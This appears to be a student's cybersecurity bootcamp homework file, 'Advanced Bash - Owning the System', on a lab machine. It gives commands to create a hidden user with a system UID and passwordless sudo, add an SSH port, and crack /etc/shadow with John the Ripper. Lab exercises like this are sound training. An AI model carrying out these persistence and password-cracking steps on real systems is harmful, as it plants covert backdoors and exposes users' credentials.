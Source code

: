 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed after creating user sysd`   
                     or
    - `if logged in as sysd, then enter passwd`                 
                     or
    - `if logged in as sysadmin, then enter passwd sysd`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`

         
      ![picture](IMAGE/sysdID.PNG)  
       
   
                        
                                   
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`
       
      ![picture](IMAGE/sysdID.PNG)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

      

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL  

         
      ![description](IMAGE/su_acc_nopass.PNG) 

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222


    ![description](IMAGE/step_2.PNG)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

     ![description](IMAGE/step3_1.PNG)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`
 

    ![description](IMAGE/passwd8.PNG)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

